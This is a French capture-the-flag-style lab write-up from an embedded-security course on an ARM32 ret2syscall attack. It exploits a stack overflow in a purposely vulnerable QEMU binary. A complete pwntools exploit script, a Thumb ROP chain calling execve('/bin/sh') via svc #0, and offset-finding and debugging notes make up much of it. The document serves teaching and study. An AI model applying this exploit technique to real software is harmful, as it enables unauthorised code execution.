


# Write-up — Lab 20 : ARM ret2syscall — SVC #0 execve direct

> **Embedded Security — ARM / QEMU**
> Ngagne Demba Dia · AngeVirusLab · Master Sécurité des Systèmes Embarqués · UCAD · 2026

[]()
[]()
[]()
[]()

---

## 1. TL;DR

**Contexte :** Pas de `system` ni `puts` dans la PLT — construire les gadgets Thumb directement dans le binaire  
**Technique :** ROP chain ARM32 Thumb → `pop {r7,pc}` → `pop {r0,pc}` → `pop {r1,r2,pc}` → `svc #0` (execve)  
**Différence vs Lab19 :** Pas de `system@plt` → syscall direct via `svc #0` (r7=11)

---

## 2. Analyse du binaire — objdump

```asm
0001042e <vulnerable>:
   1042e:   b580    push {r7, lr}
   10430:   b090    sub  sp, #64
   10432:   af00    add  r7, sp, #0      ; frame pointer
   ...
   1044c:   3740    adds r7, #64
   1044e:   46bd    mov  sp, r7
   10450:   bd80    pop  {r7, pc}        ; retour
```

**Layout stack :**

```
[sp+0  .. sp+63]  → buffer (64 bytes)
[sp+64 .. sp+67]  → saved r7   (overwrite avec padding)
[sp+68 .. sp+71]  → saved lr   ← OFFSET = 68
```

**Erreur classique :** Lab18/19 avait `push {r4, r7, lr}` + `sub sp, #68` → OFFSET=76.
Ici : `push {r7, lr}` + `sub sp, #64` → **OFFSET=68**.

Vérifié par pattern cyclique : SIGSEGV à `0x61616172` → `cyclic_find(0x61616172, n=4)` = 68.

---

## 3. Gadgets Thumb embarqués

```c
__asm__(".section .text\n"
        ".thumb\n"
        ".global pop_r7_pc\n.thumb_func\npop_r7_pc:\n\tpop {r7, pc}\n"
        ".global pop_r0_pc\n.thumb_func\npop_r0_pc:\n\tpop {r0, pc}\n"
        ".global pop_r1_r2_pc\n.thumb_func\npop_r1_r2_pc:\n\tpop {r1, r2, pc}\n"
        ".global do_svc\n.thumb_func\ndo_svc:\n\tsvc #0\n\tnop\n");
```

| Symbole | Adresse | Instruction |
| --- | --- | --- |
| pop_r7_pc | 0x10425 (LSB=1 Thumb) | pop {r7, pc} |
| pop_r0_pc | 0x10427 | pop {r0, pc} |
| pop_r1_r2_pc | 0x10429 | pop {r1, r2, pc} |
| do_svc | 0x1042b | svc #0 |
| binsh | 0x10504 | "/bin/sh\0" |

---

## 4. Compilation

```bash
arm-linux-gnueabihf-gcc -g -fno-stack-protector -no-pie -o target target.c
```

GCC génère un warning intentionnel : `read` écrit 200 bytes dans un buffer de 64 — c'est exactement la vulnérabilité exploitée.



---

## 5. ROP Chain — ARM32 execve via SVC #0

```
ARM32 execve : r7=11, r0=&"/bin/sh", r1=NULL, r2=NULL → svc #0
```

```
payload = b'A' * 68                    ← buffer (64) + saved_r7 (4)
        + p32(pop_r7_pc)               ← pc ← 0x10425
        + p32(11)                      ← r7 = SYS_execve
        + p32(pop_r0_pc)               ← pc ← 0x10427
        + p32(binsh_addr)              ← r0 = &"/bin/sh"
        + p32(pop_r1_r2_pc)            ← pc ← 0x10429
        + p32(0) + p32(0)              ← r1=NULL, r2=NULL
        + p32(do_svc)                  ← svc #0 → execve
```

---

## 6. Exploit — `exploit.py`

```python
from pwn import *

elf = ELF('./target')
context.binary = elf
context.arch   = 'arm'

pop_r7_pc    = elf.sym['pop_r7_pc']
pop_r0_pc    = elf.sym['pop_r0_pc']
pop_r1_r2_pc = elf.sym['pop_r1_r2_pc']
do_svc       = elf.sym['do_svc']
binsh_addr   = elf.sym['binsh']

chain = (
    p32(pop_r7_pc)    + p32(11)         +
    p32(pop_r0_pc)    + p32(binsh_addr) +
    p32(pop_r1_r2_pc) + p32(0) + p32(0) +
    p32(do_svc)
)

OFFSET  = 68
payload = b'A' * OFFSET + chain

p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabihf', './target'])
p.recvuntil(b'Input : \n')
p.send(payload)
p.interactive()
```

---

## 7. Résultat



```
$ id
uid=1000(angevirus) gid=1000(angevirus) groups=1000(angevirus),...
$ whoami
angevirus
```

---

## 8. Difficultés rencontrées

### 8.1 Approche ret2libc classique impossible

**Problème :** `puts` et `system` ne sont pas dans la PLT — l'approche standard (leak `puts@got` → calculer la base libc → `system("/bin/sh")`) échoue dès la première étape avec `KeyError` dans pwntools.

**Diagnostic :** `readelf -r ./target | grep puts` → vide. La PLT ne contient que `read`.

**Solution :** Abandon du leak libc, passage à un ret2syscall pur via `svc #0`.

---

### 8.2 system() provoque un SIGSEGV sous QEMU user-mode

**Problème :** Même après avoir ajouté `system` dans la PLT via `__attribute__((used))`, appeler `system("/bin/sh")` sous QEMU user-mode produit un SIGSEGV. La raison : `system()` appelle `fork()`, et QEMU user-mode ne supporte pas correctement le fork — le processus enfant crashe immédiatement.

**Diagnostic :** `strace` montrait `fork()` suivi de SIGSEGV sans execve.

**Solution :** Contournement complet de `system()` — utilisation directe de `execve` via `svc #0` (ARM syscall 11), sans fork.

---

### 8.3 /proc/maps retourne des adresses HOST, pas ARM

**Problème :** En cherchant la base libc ARM depuis QEMU, `cat /proc/<pid>/maps` retourne les adresses mémoire du processus **hôte x86-64** (ex: `0x771bc6c28000`). Ces adresses sont 64 bits et causent un overflow dans `p32()`.

**Diagnostic :** L'adresse `0x771bc6c28000` ne tient pas en 32 bits.

**Solution :** Utiliser GDB multiarch (`gdb-multiarch`) avec `target remote :1234` et `info sharedlib` pour obtenir les vraies adresses ARM : libc base = `0x40847ec0`.

---

### 8.4 sh_argv éliminé par GCC (KeyError dans pwntools)

**Problème :** `const char* sh_argv[] = {binsh, arg_i, NULL}` déclaré dans le binaire mais non référencé → GCC l'optimise et ne l'exporte pas dans la table des symboles. `elf.sym['sh_argv']` lève `KeyError`.

**Diagnostic :** `nm ./target | grep sh_argv` → vide. Seul `binsh` apparaît.

**Solution :** `execve("/bin/sh", NULL, NULL)` est valide POSIX — pas besoin de tableau argv. Utiliser `p32(0)` pour r1 et r2.

---

### 8.5 OFFSET 76 faux — le prologue avait changé

**Problème :** L'OFFSET 76 (hérité de Lab18/Lab19) était faux pour ce binaire. Le ROP chain sautait à `0x704f4d4c` (adresse invalide) — aucun `execve` visible dans strace.

**Diagnostic :**
- `objdump -d ./target | grep -A 25 "<vulnerable>"` → prologue est `push {r7, lr}` + `sub sp, #64` (pas `push {r4, r7, lr}` + `sub sp, #68`)
- Pattern cyclique : SIGSEGV à `0x61616172` → `cyclic_find(0x61616172, n=4)` = **68**

**Layout réel :**
```
[64 bytes buffer][4 bytes saved_r7][4 bytes saved_lr]
                                    ↑ OFFSET = 68
```

**Leçon :** Toujours vérifier l'OFFSET avec `objdump` pour chaque binaire — ne jamais réutiliser celui d'un lab précédent.

---

### 8.6 ROPgadget inutilisable sur ARM32

**Problème :** `ROPgadget --binary ./target --rop` et `ROP(elf)` dans pwntools échouent avec `CS_ARCH_ARM64 NameError` — bug Capstone sur certaines versions pour ARM 32 bits.

**Solution :** Construction manuelle de la chain avec `p32()` en lisant les adresses directement depuis `elf.sym[]`.

---

## 9. Progression ARM complète

| Lab | Technique | OFFSET | Difficulté |
| --- | --- | --- | --- |
| Lab18 | ret2win — overflow LR | 76 | ★☆☆ |
| Lab19 | ROP system@plt | 76 | ★★☆ |
| **Lab20** | **ret2syscall SVC #0** | **68** | **★★★** |

---

## Résumé technique

| Élément | Valeur |
| --- | --- |
| Offset | 68 bytes (confirmé cyclic + objdump) |
| Technique | ARM32 ret2syscall (SVC #0, r7=11) |
| Gadgets | Thumb .thumb_func, LSB=1 |
| argv/envp | NULL (execve valide POSIX) |
| QEMU | user-mode, pas d'ASLR |

---

*Ngagne Demba Dia · AngeVirusLab · Master Sécurité des Systèmes Embarqués · UCAD · Dakar, 2026*
